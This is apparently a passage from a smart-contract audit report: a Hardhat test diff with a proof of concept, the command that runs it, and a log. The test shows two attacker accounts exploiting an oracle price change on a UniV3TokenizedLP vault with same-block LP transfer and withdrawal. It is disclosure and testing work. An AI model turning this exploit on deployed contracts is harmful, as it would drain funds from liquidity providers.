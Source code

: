 ```diff
+               await wethUsdOracle.setPrice((await wethUsdOracle.latestAnswer()).mul(1005).div(1000));
+               console.log();
+
+               // 5. Attacker1 transfers LP to attacker2 in the same block and then withdraws them
+               console.log(">>>>>>>>>> Attacker1 transfers LP to attacker2 in the same block and then withdraws them");
+               // const lpTokenBalance = await uV3TokenizedLp.balanceOf(attacker1.address);
+               const lpTokenBalance = BigNumber.from("2857142857147252746"); // == await uV3TokenizedLp.balanceOf(attacker1.address)
+               // console.log(lpTokenBalance);
+               await uV3TokenizedLp.connect(attacker1).transfer(attacker2.address, lpTokenBalance);
+               await network.provider.send("evm_setAutomine", [true]);
+               await uV3TokenizedLp.connect(attacker2).withdraw(lpTokenBalance, attacker1.address);
+               console.log(">> block number after attack: %s", await blockNumber());
+               const wethIn = (await weth.balanceOf(attacker1.address)).sub(wethBalanceBefore);
+               const usdcOut = usdcBalanceBefore.sub(await usdc.balanceOf(attacker1.address));
+               console.log(">> WETH in: %s", wethIn);
+               console.log(">> USDC out: %s", usdcOut);
+               console.log(">> Attacker buy WETH at price of %s WETH/USDC", usdcOut.mul(ONE_ETH).div(wethIn).div(ethers.utils.parseUnits('1', 6)));
+               console.log(">> The real price is %s WETH/USDC", (await wethUsdOracle.latestAnswer()).div(await usdcUsdOracle.latestAnswer()));
+               console.log();
+       });
+
        it('should check uV3TokenizedLp was properly initialized', async () => {
                const {uV3TokenizedLp, usdc, weth, samplePool, creator} = await loadFixture(setupFixture);
                const token0Addr = await uV3TokenizedLp.token0();

```

Run the PoC

```bash
yarn hardhat test --grep "attacker can exploit oracle price differences to arbitrage"
```

The log

```bash
$ yarn hardhat test --grep "attacker can exploit oracle price differences to arbitrage"
Warning: All subsequent Upgrades warnings will be silenced.

    Make sure you have manually checked all uses of unsafe flags.

  UniV3TokenizedLP:
>>>>>>>>>> Init the PoC

>>>>>>>>>> User1 deposits some tokens to simulate the real environment

>>>>>>>>>> Attacker1 deposits some USDC in advance
>> block number before attack: 106

>>>>>>>>>> WETH price increased by 0.5%

>>>>>>>>>> Attacker1 transfers LP to attacker2 in the same block and then withdraws them
>> block number after attack: 107
>> WETH in: 1515151515153809869
>> USDC out: 5303030304
>> Attacker buy WETH at price of 3500 WETH/USDC
>> The real price is 3517 WETH/USDC
```